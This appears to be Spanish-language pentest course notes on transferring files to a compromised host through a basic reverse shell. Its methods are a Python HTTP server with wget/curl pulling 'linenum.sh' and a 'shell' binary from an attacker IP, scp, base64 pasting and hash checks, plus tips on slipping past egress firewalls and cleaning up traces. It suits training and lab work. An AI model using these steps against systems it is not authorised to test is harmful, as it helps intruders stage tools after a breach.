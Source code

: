 # Transferencia de archivos

Durante una prueba de penetración es frecuente necesitar transferir scripts, exploits o datos entre nuestro host atacante y el servidor comprometido. Si contamos con un shell ‘normal’ (reverse shell sin funcionalidades avanzadas), aquí tienes métodos prácticos y fiables.

---

## Resumen rápido (destacados)

* **HTTP simple (python -m http.server)** + `wget`/`curl` es la forma más rápida cuando el host puede acceder a nuestra máquina.
* **scp (Secure Copy)** funciona si tenemos credenciales SSH o una clave válida.
* **base64** es la solución cuando no hay conectividad directa; codificamos en local, pegamos el texto y decodificamos en remoto.
* **Verificación**: usar `file` y `md5sum` para comprobar integridad tras la transferencia.
* Siempre comprobar permisos y limpiar (borrar servidores temporales / archivos) tras la operación.

---

## 1) Servidor HTTP en máquina atacante + wget/curl en remoto

En la máquina atacante, situarnos en el directorio que contiene el fichero y lanzar un servidor HTTP (puerto 8000):

```bash
cd /tmp
python3 -m http.server 8000
# Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

En el host remoto (si tiene `wget`):

```bash
wget http://10.10.14.1:8000/linenum.sh
# Saving to: 'linenum.sh'
```

Si no tiene `wget`, usar `curl`:

```bash
curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
```

---

## 2) SCP (Secure Copy) — requiere credenciales SSH

Desde la máquina atacante, subir un archivo al remoto:

```bash
scp linenum.sh user@remotehost:/tmp/linenum.sh
# user@remotehost's password: *********
```

---

## 3) Base64 — útil cuando no es posible abrir puertos o iniciar un servidor

Codificar localmente (sin saltos de línea):

```bash
base64 shell -w 0
# salida: f0VMRgIBAQ... (cadena larga)
```

Pegar la cadena en el host remoto y decodificar:

```bash
echo f0VMRgIBAQ... | base64 -d > shell
```

---

## 4) Validación de la transferencia

Comprobar el tipo de archivo en remoto:

```bash
file shell
# shell: ELF 64-bit LSB executable, x86-64, ...
```

Comprobar hash MD5 en ambas máquinas para garantizar integridad:

```bash
# En la máquina atacante
md5sum shell
# 321de1d7e7c3735838890a72c9ae7d1d  shell

# En el host remoto
md5sum shell
# 321de1d7e7c3735838890a72c9ae7d1d  shell
```

---

## Consejos operativos

* Si ejecutas `python3 -m http.server`, recuerda cerrar el servidor y borrar los ficheros temporales cuando termines.
* Ajusta permisos (por ejemplo `chmod +x shell`) si vas a ejecutar binarios.
* Evita transferir ficheros a rutas críticas; usar `/tmp` o `/var/tmp` cuando sea apropiado.
* Si el host tiene restricciones salientes (firewall), prueba usar puertos comunes (80/443) o transferencia por canales ya existentes (web shells, SFTP sobre SSH si está disponible).

---

## Recursos y lecturas adicionales

* Módulo «Transferencias de archivos» (curso / repositorio interno)

---

*Fin del documento.*
